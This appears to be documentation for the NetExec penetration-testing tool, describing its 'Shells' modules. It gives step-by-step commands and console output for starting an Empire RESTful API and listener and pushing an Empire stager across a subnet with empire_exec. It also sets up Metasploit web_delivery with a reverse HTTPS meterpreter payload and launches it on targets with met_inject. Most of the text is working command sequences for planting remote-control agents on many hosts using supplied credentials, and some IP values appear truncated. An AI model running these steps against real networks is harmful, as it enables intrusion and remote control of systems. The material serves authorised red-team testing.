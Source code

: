 # Shells

## Empire Agent

### We can use the empire_exec module to execute an Empire Agent's initial stager. In the background, the module connects to Empire's RESTful API, generates a launcher for the specified listener and executes it.

## 1) First, setup the rest API:

    python powershell-empire --rest --user empireadmin --pass Password123!

    [*] Loading modules from: /home/mpgn/Tools/Empire/lib/modules/

    * Starting Empire RESTful API on port: 1337
 
    * RESTful API token: l5l051eqiqe70c75dis68qjheg7b19di7n8auzml
 
    * Running on https://0.0.0.0:1337/ (Press CTRL+C to quit)

## 2) Second, setup a listener

    (Empire: listeners) > set Name test

    (Empire: listeners) > set Host 192.168.10.3

    (Empire: listeners) > set Port 9090

    (Empire: listeners) > set CertPath data/empire.pem

    (Empire: listeners) > run

    (Empire: listeners) > list

    [*] Active listeners:

      ID    Name              Host                                 Type      Delay/Jitter   KillDate    Redirect Target
      --    ----              ----                                 -------   ------------   --------    ---------------
      1     test              http://192.168.10.3:9090                 native    5/0.0                      

    (Empire: listeners) > 

### The username and password that nxc uses to authenticate to Empire's RESTful API are stored in the nxc.conf file located at ~/.nxc/nxc.conf:

    [Empire]

    api_host=127.0.0.1

    api_port=1337

    username=empireadmin

    password=Password123!

    [Metasploit]

    rpc_host=127.0.0.1

    rpc_port=55552

    password=abc123

## 3) Then just run the empire_exec module and specify the listener name:

    NetExec 192.168.10.0/24 -u username -p password -M empire_exec -o LISTENER=test

## Meterpreter

### We can use the metinject module launch a meterpreter using Invoke-MetasploitPayload Invoke-MetasploitPayload.ps1 script.

### On your Metasploit instance, run the following commands

    use exploit/multi/script/web_delivery

### The SRVHOST and SRVPORT variables are used for running the webserver to host the script

    set SRVHOST 10.211.55

    set SRVPORT 8443

### The target variable determines what type of script we're using. 2 is for PowerShell

    set target 2

### Pick your payload. In this case, we'll use a reverse https meterpreter payload

    set payload windows/meterpreter/reverse_https

    set LHOST 10.211.55

    set LPORT 443

### Run the exploit

    run -j

### Once run, the web_delivery module will spin up the webserver to host the script and reverse listener for our meterpreter session.

    msf exploit(web_delivery) > run -j

    [*] Exploit running as background job.

    [*] Started HTTPS reverse handler on https://10.211.55.4:8443/

    [*] Using URL: http://10.211.55.4:8080/eYEssEwv2D

    [*] Local IP: http://10.211.55.4:8080/eYEssEwv2D

    [*] Server started.

### Then just run the met_inject module and specify the LHOST and LPORT values:

    NetExec 192.168.10.0/24 -u username -p password -M met_inject -o SRVHOST=192.168.10.3 SRVPORT=8443 RAND=eYEssEwv2D SSL=http
